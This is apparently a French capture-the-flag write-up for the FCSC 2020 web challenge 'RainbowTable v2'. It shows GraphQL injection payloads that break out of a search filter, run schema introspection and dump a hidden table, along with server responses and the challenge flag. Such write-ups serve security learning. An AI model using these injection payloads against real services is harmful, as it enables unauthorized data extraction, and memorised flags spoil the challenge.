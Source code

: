 <p align="center">
  <a href="" rel="noopener">
 <img style="width:50px;" src="https://france-cybersecurity-challenge.fr/files/abecee1bc8e9f22344226e697e672a7d/navbar_logo.png" alt="Project logo"></a>
</p>
<h1 align="center">RainbowTable v2</h1>

<div align="center">

[![CTF](https://img.shields.io/badge/FCSC-2020-red.svg)](https://france-cybersecurity-challenge.fr/)
[![CTF](https://img.shields.io/badge/Catégorie-Web-yellow.svg)](#)

</div>

---

## 📝 Table des matières

- [Enoncé](#problem_statement)
- [Sources](#idea)

## 🧐 Enoncé <a name = "problem_statement"></a>

La première version de notre plateforme de recherche de cuisiniers présentait quelques problèmes de sécurité. Heureusement, notre développeur ne compte pas ses heures et a corrigé l'application en nous affirmant que plus rien n'était désormais exploitable. Il en a également profiter pour améliorer la recherche des chefs.

Pouvez-vous encore trouver un problème de sécurité ?

URL : http://challenges2.france-cybersecurity-challenge.fr:5007/

Pour commencer analysons un peu le code source:

```js
function makeSearch(searchInput) {
			if(searchInput.length == 0) {
				alert("You must provide at least one character!");
				return false;
			}

			var searchValue = btoa(searchInput);
			var bodyForm = new FormData();
			bodyForm.append("search", searchValue);

			fetch("index.php?search="+searchValue, {
				method: "GET"
			}).then(function(response) {
				response.json().then(function(data) {
					data = eval(data);
					data = data['data']['allCooks']['nodes'];
					$("#results thead").show()
					var table = $("#results tbody");
					table.html("")
					$("#empty").hide();
					data.forEach(function(item, index, array){
						table.append("<tr class='table-dark'><td>"+item['firstname']+" "+ item['lastname']+"</td><td>"+item['speciality']+"</td><td>"+(item['price']/100)+"</td></tr>");
					});
					$("#count").html(data.length)
					$("#count").show()
				});
			});
		}
		
		$("#clear-btn").click(function() {
			$("#search").val("");
			$("#results tbody").html("");
			$("#results thead").hide();
			$("#count").hide()
			$("#empty").show();
		})

		$("#search-btn").click(function() {
			var content = $('#search').val();
			makeSearch(content);
		})
```

On peut voir que la requete n'est plus dans le script js. L'injection est toujours possible car lorsque l'on va dans 
```
?search=dkqdkjq
```

Une erreur apparait. Commencons par imaginer la requete graphql coté serveur:
```json
{ allCooks (filter: {or: [{firstname: {like: "%input%"}}, {lastname: {like: "%input%"}}]}) { nodes { firstname, lastname, speciality, price }}}
```

Donc le principe serait de réecrire la requete par dessus celle du serveur pour ensuite mettre un petit payload qui nous afficherai les tables..

```
a%"}}]}){ nodes { firstname, lastname, speciality, price }}}#
```

Ensuite l'affichage des tables
```
a%"}}]}){ nodes { firstname, lastname, speciality, price }}__schema{types{name}}}#
```

Le retour de cette requete encodé en base64 nous renvoie un tableau

```json
{"data":{"allCooks":{"nodes":[{"firstname":"Thibault","lastname":"Royer","speciality":"Raji Cuisine","price":12421},{"firstname":"Bernard","lastname":"Bruneau","speciality":"Chinese and Thai","price":14100},{"firstname":"Trycia","lastname":"Barton","speciality":"Fast food","price":920},{"firstname":"Jaleel","lastname":"Gerlach","speciality":"Tandoori dishes","price":24575},{"firstname":"Isaac","lastname":"Collier","speciality":"South Korean foods","price":8416},{"firstname":"Paula","lastname":"Hessel","speciality":"Pizza","price":74401},{"firstname":"Teagan","lastname":"Kertzmann","speciality":"Vegererian","price":12664},{"firstname":"Garfield","lastname":"Goldner","speciality":"Air and sun","price":944092},{"firstname":"Elisabeth","lastname":"Windler","speciality":"Vegetelian","price":310603},{"firstname":"Casey","lastname":"Schmitt","speciality":"Italian","price":96837},{"firstname":"Luciano","lastname":"Smitham","speciality":"Brittany specialities","price":1963},{"firstname":"Jace","lastname":"Jakubowski","speciality":"Sushi","price":20522}]},"__schema":{"types":[{"name":"Query"},{"name":"Node"},{"name":"ID"},{"name":"Int"},{"name":"Cursor"},{"name":"CooksOrderBy"},{"name":"CookCondition"},{"name":"String"},{"name":"CookFilter"},{"name":"IntFilter"},{"name":"Boolean"},{"name":"StringFilter"},{"name":"CooksConnection"},{"name":"Cook"},{"name":"CooksEdge"},{"name":"PageInfo"},{"name":"FlagNotTheSameTableNamesOrderBy"},{"name":"FlagNotTheSameTableNameCondition"},{"name":"FlagNotTheSameTableNameFilter"},{"name":"FlagNotTheSameTableNamesConnection"},{"name":"FlagNotTheSameTableName"},{"name":"FlagNotTheSameTableNamesEdge"},{"name":"__Schema"},{"name":"__Type"},{"name":"__TypeKind"},{"name":"__Field"},{"name":"__InputValue"},{"name":"__EnumValue"},{"name":"__Directive"},{"name":"__DirectiveLocation"}]}}}
```

Ensuite, j'ai voulut chercher le nom de la table avec les champs, donc j'y suis allé progressivement et j'ai fini par trouver ca:
```
a%"}}]}){ nodes { firstname, lastname, speciality, price }} __type (name: "Query") {name fields{name type{name kind ofType{name kind}}}}}#
```

Cela ma retourné ca:

```json
{"data":{"allCooks":{"nodes":[{"firstname":"Thibault","lastname":"Royer","speciality":"Raji Cuisine","price":12421},{"firstname":"Bernard","lastname":"Bruneau","speciality":"Chinese and Thai","price":14100},{"firstname":"Trycia","lastname":"Barton","speciality":"Fast food","price":920},{"firstname":"Jaleel","lastname":"Gerlach","speciality":"Tandoori dishes","price":24575},{"firstname":"Isaac","lastname":"Collier","speciality":"South Korean foods","price":8416},{"firstname":"Paula","lastname":"Hessel","speciality":"Pizza","price":74401},{"firstname":"Teagan","lastname":"Kertzmann","speciality":"Vegererian","price":12664},{"firstname":"Garfield","lastname":"Goldner","speciality":"Air and sun","price":944092},{"firstname":"Elisabeth","lastname":"Windler","speciality":"Vegetelian","price":310603},{"firstname":"Casey","lastname":"Schmitt","speciality":"Italian","price":96837},{"firstname":"Luciano","lastname":"Smitham","speciality":"Brittany specialities","price":1963},{"firstname":"Jace","lastname":"Jakubowski","speciality":"Sushi","price":20522}]},"__type":{"name":"Query","fields":[{"name":"query","type":{"name":null,"kind":"NON_NULL","ofType":{"name":"Query","kind":"OBJECT"}}},{"name":"nodeId","type":{"name":null,"kind":"NON_NULL","ofType":{"name":"ID","kind":"SCALAR"}}},{"name":"node","type":{"name":"Node","kind":"INTERFACE","ofType":null}},{"name":"allCooks","type":{"name":"CooksConnection","kind":"OBJECT","ofType":null}},{"name":"allFlagNotTheSameTableNames","type":{"name":"FlagNotTheSameTableNamesConnection","kind":"OBJECT","ofType":null}},{"name":"cookById","type":{"name":"Cook","kind":"OBJECT","ofType":null}},{"name":"flagNotTheSameTableNameById","type":{"name":"FlagNotTheSameTableName","kind":"OBJECT","ofType":null}},{"name":"cook","type":{"name":"Cook","kind":"OBJECT","ofType":null}},{"name":"flagNotTheSameTableName","type":{"name":"FlagNotTheSameTableName","kind":"OBJECT","ofType":null}}]}}}
```

J'ai fini par en déduire la table et le champ.
```
a%"}}]}){ nodes { firstname, lastname, speciality, price }} allFlagNotTheSameTableNames { nodes { flagNotTheSameFieldName }}}#
```

Ca ma retourné
```json
{"data":{"allCooks":{"nodes":[{"firstname":"Thibault","lastname":"Royer","speciality":"Raji Cuisine","price":12421},{"firstname":"Bernard","lastname":"Bruneau","speciality":"Chinese and Thai","price":14100},{"firstname":"Trycia","lastname":"Barton","speciality":"Fast food","price":920},{"firstname":"Jaleel","lastname":"Gerlach","speciality":"Tandoori dishes","price":24575},{"firstname":"Isaac","lastname":"Collier","speciality":"South Korean foods","price":8416},{"firstname":"Paula","lastname":"Hessel","speciality":"Pizza","price":74401},{"firstname":"Teagan","lastname":"Kertzmann","speciality":"Vegererian","price":12664},{"firstname":"Garfield","lastname":"Goldner","speciality":"Air and sun","price":944092},{"firstname":"Elisabeth","lastname":"Windler","speciality":"Vegetelian","price":310603},{"firstname":"Casey","lastname":"Schmitt","speciality":"Italian","price":96837},{"firstname":"Luciano","lastname":"Smitham","speciality":"Brittany specialities","price":1963},{"firstname":"Jace","lastname":"Jakubowski","speciality":"Sushi","price":20522}]},"allFlagNotTheSameTableNames":{"nodes":[{"flagNotTheSameFieldName":"FCSC{70c48061ea21935f748b11188518b3322fcd8285b47059fa99df37f27430b071}"}]}}}
```

Le flag est dans cette requete : 
```
{"flagNotTheSameFieldName":"FCSC{70c48061ea21935f748b11188518b3322fcd8285b47059fa99df37f27430b071}"}
```


## ⛓️ Sources <a name = "limitations"></a>

Graphql : https://graphql.org/

Git - swisskyrepo : https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection
